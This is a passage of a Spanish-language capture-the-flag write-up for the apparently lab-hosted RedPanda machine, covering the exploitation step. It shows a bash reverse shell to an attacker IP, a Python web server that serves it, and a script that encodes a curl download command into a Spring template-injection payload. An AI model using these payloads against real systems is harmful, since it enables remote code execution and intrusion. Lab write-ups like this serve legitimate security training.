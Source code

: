 
![Desktop View](/assets/img/RedPanda/Pasted image 20221119232453.png){: width="972" height="589" }

---

# Exploitation
## Nombre por determinar

Si observamos el ultimo comando ejecutado va concatenando los caracteres dependiendo su valor utf 8 para asi ejecutar el comando. Nos podemos hacer un script (o buscarle en internet) que nos le haga el solo.

Como no tuvimos éxito con un shell inverso instantáneo, elegimos dividir la configuración en diferentes comandos y ejecutar cada comando por separado. (pipe | y && no está permitido)

Preparamos un shell inverso de TCP simple en el cuadro del atacante y lo alojamos a través del módulo de servidor web de Python.

```bash
#!/bin/bash
bash -c "bash -1 >& /dev/tcp/10.10.14.48/9001 0>&1"
```

Levantamos un server en python para asi copiar el archivo bash que nos da la [[Reverse shell]] y meterla en la maquina victima:

```python
python3 -m http.server 8000
```

Y luego este codigo en python que es el que ejecuta el comando y lo traduce para el payload:
Tambien podemos usar este programa:
https://github.com/VikasVarshney/ssti-payload

```python
#!/usr/bin/python3

def main():

        command = "curl 10.10.14.48:8000/shell.sh --output /tmp/shell.sh" # specify command 
        convert = []

        for x in command:
            convert.append(str(ord(x)))

        payload = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)" % convert[0]

        for i in convert[1:]:
            payload += ".concat(T(java.lang.Character).toString({}))".format(i)

        payload += ").getInputStream())}"

        print(payload)

if __name__ == "__main__":
    main()


```
